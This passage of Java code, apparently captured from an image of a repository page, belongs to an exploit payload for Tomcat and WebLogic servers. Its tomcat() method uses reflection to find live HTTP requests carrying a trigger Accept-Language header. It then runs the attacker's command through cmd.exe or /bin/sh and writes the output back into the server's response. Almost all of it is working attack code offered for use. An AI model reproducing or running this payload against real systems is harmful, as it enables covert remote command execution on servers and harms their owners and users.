 ```java
        try {
            Class.forName("weblogic.work.ExecuteThread");
            WeblogicEchoTemplate();
            return;
        } catch (Exception ignored){

        }
    }
    private static void tomcat() {
        try{
            Thread[] var5 = (Thread[])getFV(Thread.currentThread().getThreadGroup(), "threads");
            for (Thread var7 : var5) {
                if (var7 != null) {
                    String var3 = var7.getName();
                    if (!var3.contains("exec") && var3.contains("http")) {
                        Object var1 = getFV(var7, "target");
                        if (var1 instanceof Runnable) {
                            try {
                                var1 = getFV(getFV(getFV(var1, "this$0"), "handler"), "global");
                            } catch (Exception var13) {
                                continue;
                            }
                            List var9 = (List) getFV(var1, "processors");
                            for (Object var11 : var9) {
                                var1 = getFV(var11, "req");
                                Object var2 = var1.getClass().getMethod("getResponse").invoke(var1);
                                String var15 = (String) var1.getClass().getMethod("getHeader", String.class).invoke(var1, "Accept-Language");
                                if (var15 != null && var15.equals("zh-CN,zh;q=1.9")) {
                                    var2.getClass().getMethod("setStatus", Integer.TYPE).invoke(var2, new Integer(200));
                                    String[] var12 = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};
                                    writeBody(var2, (new Scanner((new ProcessBuilder(var12)).start().getInputStream())).useDelimiter("\\A").next().getBytes());
                                    return;
                                }
                            }
                        }
                    }
                }
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    private static void writeBody(Object var0, byte[] var1) throws Exception {
        Object var2;
        Class var3;
        try {
            var3 = Class.forName("org.apache.tomcat.util.buf.ByteChunk");
            var2 = var3.newInstance();
            var3.getDeclaredMethod("setBytes", byte[].class, Integer.TYPE, Integer.TYPE).invoke(var2, var1, new Integer(0), new Integer(var1.length));
            var0.getClass().getMethod("doWrite", var3).invoke(var0, var2);
        } catch (NoSuchMethodException var5) {
            var3 = Class.forName("java.nio.ByteBuffer");
            var2 = var3.getDeclaredMethod("wrap", byte[].class).invoke(var3, var1);
            var0.getClass().getMethod("doWrite", var3).invoke(var0, var2);
        }

```